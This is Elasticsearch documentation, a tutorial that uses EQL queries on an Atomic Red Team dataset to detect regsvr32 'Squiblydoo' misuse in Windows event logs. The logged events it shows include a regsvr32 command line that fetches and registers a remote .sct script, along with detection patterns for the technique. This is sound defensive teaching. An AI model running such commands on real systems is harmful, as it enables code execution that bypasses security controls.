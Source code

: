 [role="xpack"]
[testenv="basic"]
[[eql-ex-threat-detection]]
== Example: Detect threats with EQL

experimental::[]

This example tutorial shows you how you can use EQL to detect security threats
and other suspicious behavior.

In the scenario, you're tasked with detecting
https://attack.mitre.org/techniques/T1218/010/[`regsvr32` misuse] in Windows event
logs. `regsvr32` misuse is a known adversary technique documented in the
https://attack.mitre.org[MITRE ATT&CK®] knowledge base.

[discrete]
[[eql-ex-threat-detection-setup]]
=== Setup

This tutorial uses a test dataset for `regsvr32` misuse from
https://github.com/redcanaryco/atomic-red-team[Atomic Red Team]. The dataset has
been normalized and mapped to use fields from the {ecs-ref}[Elastic Common
Schema (ECS)], including the `@timestamp` and `event.category` fields. The
dataset includes events that imitate behaviors related to `regsvr32` misuse, as
documented by MITRE ATT&CK®.

To get started, download and index the dataset:

. Download the https://raw.githubusercontent.com/elastic/elasticsearch/{branch}/docs/src/test/resources/normalized-T1117-AtomicRed-regsvr32.json[`normalized-T1117-AtomicRed-regsvr32.json`] dataset.

. Index the data into `my-index-000001` with the following <<docs-bulk,bulk
API>> request:
+
[source,sh]
----
curl -H "Content-Type: application/json" -XPOST "localhost:9200/my-index-000001/_bulk?pretty&refresh" --data-binary "@normalized-T1117-AtomicRed-regsvr32.json"
----
// NOTCONSOLE

. Use the <<cat-indices,cat indices API>> to verify the data was successfully
indexed.
+
[source,console]
----
GET /_cat/indices/my-index-000001?v&h=health,status,index,docs.count
----
// TEST[setup:atomic_red_regsvr32]
+
The API response should show a `docs.count` value of `150`, indicating 150
documents were indexed.
+
[source,txt]
----
health status index            docs.count
yellow open   my-index-000001         150
----
// TESTRESPONSE[non_json]

[discrete]
[[eql-ex-get-a-count-of-regsvr32-events]]
=== Get a count of `regsvr32` events

Since you're looking for `regsvr32` misuse, start by getting a count of any
events associated with a `regsvr32.exe` process.

The following <<eql-search-api,EQL search API>> request uses an EQL query to
retrieve a count of events with a `process.name` of `regsvr32.exe`. The query
starts with the <<eql-syntax-match-any-event-category,`any where` keywords>>,
meaning the query can match events of any <<eql-required-fields,event
category>>.

[source,console]
----
GET /my-index-000001/_eql/search?filter_path=-hits.events   <1>
{
  "query": """
    any where process.name == "regsvr32.exe"                <2>
  """,
  "size": 200                                               <3>
}
----
// TEST[setup:atomic_red_regsvr32]

<1> Uses the `?filter_path=-hits.events` query parameter to exclude the
`hits.events` property from the response. The `hits.events` property contains
the document source for any matching events. This request is intended to
retrieve a count of events only.
<2> Uses an EQL query to match events with a `process.name` of `regsvr32.exe`.
<3> Returns up to 200 events or sequences matching the EQL query.

The request returns the following response, indicating that 143 events match the
query.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 60,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 143,
      "relation": "eq"
    }
  }
}
----
// TESTRESPONSE[s/"took": 60/"took": $body.took/]

[discrete]
[[eql-ex-check-for-command-line-artifacts]]
=== Check for command line artifacts

Based on your previous query, you know `regsvr32` processes were associated with
143 events. But how was `regsvr32.exe` first called? And who called it?

`regsvr32` is a command-line utility so it may help to narrow your results to
processes where the command line was used.

Update the previous EQL query as follows:

* Change the `any` keyword to `process`. This limits matches to events with an
`event.category` of `process`.
* Add the `and process.command_line.keyword != null` condition to match only
events with a command line value.

You'll also need to remove the `filter_path=-hits.events` query parameter. This
lets you retrieve the document source for any matching events.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    process where process.name == "regsvr32.exe" and process.command_line.keyword != null
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches one process event. The event has an `event.type` of
`creation`, indicating the start of a `regsvr32.exe` process.

Based on the `process.command_line.keyword` value, `regsvr32.exe` used `scrobj.dll` to
register a script, `RegSvr32.sct`. This fits the behavior of a
https://attack.mitre.org/techniques/T1218/010/["Squiblydoo" attack], a known
variant of `regsvr32` misuse.

The response also includes other valuable information about how the
`regsvr32.exe` process started, such as the `@timestamp`, the associated
`user.id`, and the `process.parent.name`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 21,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "my-index-000001",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "parent": {
              "name": "cmd.exe",
              "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable": "C:\\Windows\\System32\\cmd.exe"
            },
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable": "C:\\Windows\\System32\\regsvr32.exe",
            "ppid": 2652
          },
          "logon_id": 217055,
          "@timestamp": 131883573237130000,
          "event": {
            "category": "process",
            "type": "creation"
          },
          "user": {
            "full_name": "bob",
            "domain": "ART-DESKTOP",
            "id": "ART-DESKTOP\\bob"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 21/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-check-for-malicious-script-loads]]
=== Check for malicious script loads

You now know that a `regsvr32.exe` process was used to register a potentially
malicious script, `RegSvr32.sct`. Next, see if `regsvr32.exe` later loads the
`scrob.dll` library.

Modify the previous EQL query as follows:

* Change the `process` keyword to `library`.
* Replace the `process.command_line.keyword != null` condition with
`dll.name == "scrobj.dll`.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    library where process.name == "regsvr32.exe" and dll.name == "scrobj.dll"
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches an event, confirming `scrobj.dll` was later loaded by
`regsvr32.exe`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 5,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "my-index-000001",
        "_id": "ol5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "executable": "C:\\Windows\\System32\\regsvr32.exe"
          },
          "@timestamp": 131883573237450016,
          "dll": {
            "path": "C:\\Windows\\System32\\scrobj.dll",
            "name": "scrobj.dll"
          },
          "event": {
            "category": "library"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 5/"took": $body.took/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-detemine-likelihood-of-sucess]]
=== Determine likelihood of success

In many cases, malicious scripts are used to connect to remote servers or
download other files. If this occurred, the attack might have succeeded.

Use an <<eql-sequences,EQL sequence query>> to check for the following series of
events, in order:

. A `regsvr32.exe` process, which could have been used to register malicious
scripts as `scrobj.dll`
. A load of the `scrobj.dll` library by the same process
. Any network event by the same process, which could indicate the download of a
remote file

To match, each event in the sequence must share the same process ID, recorded in
the `process.pid` field.

Based on the command line value seen in the previous result, you can expect to
find a match. However, the sequence query isn't designed for that specific
command. Instead, it looks for a pattern of suspicious behavior while still
being generic enough to detect similar threats in the future.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == 'regsvr32.exe']
      [library where dll.name == 'scrobj.dll']
      [network where true]
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches a sequence, indicating the attack likely succeeded.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 25,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "join_keys": [
          2012
        ],
        "events": [
          {
            "_index": "my-index-000001",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_version": 1,
            "_seq_no": 3,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },
              "logon_id": 217055,
              "@timestamp": 131883573237130000,
              "event": {
                "category": "process",
                "type": "creation"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              }
            }
          },
          {
            "_index": "my-index-000001",
            "_id": "ol5MJXMBMk1dGnErnBW8",
            "_version": 1,
            "_seq_no": 5,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573237450016,
              "dll": {
                "path": "C:\\Windows\\System32\\scrobj.dll",
                "name": "scrobj.dll"
              },
              "event": {
                "category": "library"
              }
            }
          },
          {
            "_index": "my-index-000001",
            "_id": "EF5MJXMBMk1dGnErnBa9",
            "_version": 1,
            "_seq_no": 24,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573238680000,
              "destination": {
                "address": "151.101.48.133",
                "port": "443"
              },
              "source": {
                "address": "192.168.162.134",
                "port": "50505"
              },
              "event": {
                "category": "network"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              },
              "network": {
                "protocol": "tcp",
                "direction": "outbound"
              }
            }
          }
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 25/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.0._id/]
// TESTRESPONSE[s/"_seq_no": 3/"_seq_no": $body.hits.sequences.0.events.0._seq_no/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.1._id/]
// TESTRESPONSE[s/"_seq_no": 5/"_seq_no": $body.hits.sequences.0.events.1._seq_no/]
// TESTRESPONSE[s/"_id": "EF5MJXMBMk1dGnErnBa9"/"_id": $body.hits.sequences.0.events.2._id/]
// TESTRESPONSE[s/"_seq_no": 24/"_seq_no": $body.hits.sequences.0.events.2._seq_no/]
